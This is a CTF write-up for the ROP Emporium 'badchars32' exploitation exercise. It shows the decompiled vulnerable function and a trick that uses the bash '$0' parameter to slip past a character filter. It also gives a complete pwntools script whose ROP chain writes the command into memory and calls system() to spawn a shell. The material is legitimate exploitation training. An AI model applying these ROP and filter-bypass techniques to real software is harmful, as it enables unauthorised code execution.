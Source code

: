 ```yaml
---
layout: post
title: ROP Emporium - badchars32
---
```


### Instruction
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Prev step to find data-section addr and gadgets
<https://bhrdn.github.io/ROP-Emporium-write432/>

### Check vuln function
```c
void pwnme(void)
{
  char *__s;
  size_t __n;
  undefined auStack44[40];
  
  __s = (char *)malloc(0x200);
  if (__s != (char *)0x0) {
    memset(__s, 0, 0x200);
    memset(auStack44, 0, 0x20);
    puts("badchars are: b i c / <space> f n s");
    printf("> ");
    __s = fgets(__s, 0x200, stdin);
    __n = nstrlen(__s, 0x200);
    checkBadchars(__s, __n);
    memcpy(auStack44, __s, __n);
    free(__s);
    return;
  }

  exit(1);
}
```

### XOR function to bypass badchars
```c
void usefulGadgets(void)
{
  byte in_CL;
  byte *unaff_EBX;
  
  *unaff_EBX = *unaff_EBX ^ in_CL;
  return;
}
```

### Why not bypass badchars with bash special param to spawn shell 🔥
- Badchars: [ 'b', 'i', 'c', '/', ' ', 'f', 'n', 's' ]

```c
#include <stdio.h>

int main()
{
    system("$0");
    return 0;
}
```
- Reference: <https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html>

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('badchars32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '${0}'

DATA_START = 0x804a038

## gadgets to write datas
POP_ESI_POP_EDI = 0x08048899
MOV_EDI_ESI = 0x08048893

rop = ROP(exe)
rop.raw(POP_ESI_POP_EDI)
rop.raw(command)
rop.raw(DATA_START)
rop.raw(MOV_EDI_ESI)

rop.system(DATA_START)

io.sendline(payload + rop.__str__())
io.interactive()
```